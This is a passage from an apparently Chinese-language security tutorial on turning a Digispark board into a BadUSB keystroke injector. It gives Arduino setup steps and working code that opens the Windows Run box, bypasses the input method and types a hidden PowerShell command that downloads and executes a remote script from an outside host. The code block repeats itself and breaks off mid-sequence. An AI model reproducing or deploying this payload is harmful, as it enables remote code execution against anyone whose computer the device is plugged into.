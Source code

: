 5、打开 Arduino 软件，点击文件中的首选项，附加开发板管理器网址填入：[https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package\_digistump\_index.json](https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json)

6、点击工具中的开发板中的开发板管理器，等待下载索引完成（下载不成功请使用海外代理），搜索并安装“Digistump AVR Boards by Digistump”，安装完成后在开发板中选择 Digispark（Default-16.5mhz）

[![image.png](assets/1698893928-07b1f452d4aca2a3d0f572753067cbf1.png)](https://storage.tttang.com/media/attachment/2023/04/23/23879ece-cbf0-4ed2-add8-61f83d7c4919.png)

7、将以下代码填入 Arduino 代码框中，以实现伪造键盘输出 win+r 打开运行窗口并执行 Powershell 命令：

```bash
void setup(){//初始化 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/main.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
```